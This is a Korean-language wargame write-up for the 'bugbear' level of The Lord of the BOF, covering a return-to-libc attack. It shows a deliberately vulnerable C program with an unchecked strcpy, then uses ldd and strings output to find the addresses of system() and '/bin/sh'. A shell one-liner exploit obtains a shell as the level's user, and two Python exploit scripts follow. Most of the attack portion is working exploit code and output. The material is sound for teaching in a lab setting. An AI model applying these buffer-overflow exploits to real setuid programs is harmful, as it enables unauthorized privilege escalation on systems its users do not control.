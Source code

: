 ```yaml
---
title: "[LOB]Level13. bugbear"
tags: [LOB, writeup, RTL]
author: eli_ez3r
key: 20180013
category: write-up
date: 2018-08-30 03:00:00 +0900
modify_date: 2018-08-30
article_header:
  type: cover
  image:
    src: /assets/img/hackerschool_logo.png
---
```


[RTL : Return To Library](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - bugbear
        - RTL1
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] == '\xbf')
	{
		printf("stack betrayed you!!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

-----

### 0x01. Analysis

분기문을 통해 RET 부분에 덮여씌워지는 주소 앞주소`\xbf`를 필터링 한다.

즉, `\xbf`로 시작하는 주소를 리턴 주소로 할 수 없다. 그래서 생각나는 기법이**라이브러리 함수를 사용하는 RTL(Return To Library)기법이다.**



##### payload 시나리오 :

"A"*44+"&system()"+"A"*4+"&["/bin/sh"]

```sh
[darkknight@localhost darkknight]$ ldd bugbear
	libc.so.6 => /lib/libc.so.6 (0x40018000)
	/lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)
	
[darkknight@localhost darkknight]$ strings -tx /lib/libc.so.6 | grep "/bin/sh"
  e3ff9 /bin/sh
  e6587 /bin/sh
  e6595 /bin/sh
  e796a /bin/sh
  e81c7 /bin/sh
  e8778 /bin/sh
```

&system : 0x40058ae0

&"/bin/sh" : 0x400fbff9

-----

### 0x02. Exploit

```
[darkknight@localhost darkknight]$ ./bugbear `python -c 'print "A"*44+"\xe0\x8a\x05\x40"+"A"*4+"\xf9\xbf\x0f\x40"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@AAAA�@
bash$ my-pass
euid = 513
new divide
bash$ id
uid=512(darkknight) gid=512(darkknight) euid=513(bugbear) egid=513(bugbear) groups=512(darkknight)
```



-----



```python
import struct
import os

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/darkknight/bugbear"

system = 0x40058ae0
libc_addr = 0x40018000
bin_sh_offset = 0xe3ff9

payload = "\x90"*44
payload = append(p32(system))
payload = append("\x90"*4)
payload = append(p32(libc_addr + bin_sh_offset))

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```

```python
import struct
import os

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/darkknight/bugbear"

system = 0x40058ae0
libc_addr = 0x40018000
bin_sh_offset = 0xe3ff9
exit = 0x400391e0

payload = "\x90"*44
payload = append(p32(system))
payload = append(p32(exit))
payload = append(p32(libc_addr + bin_sh_offset))

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```



-----

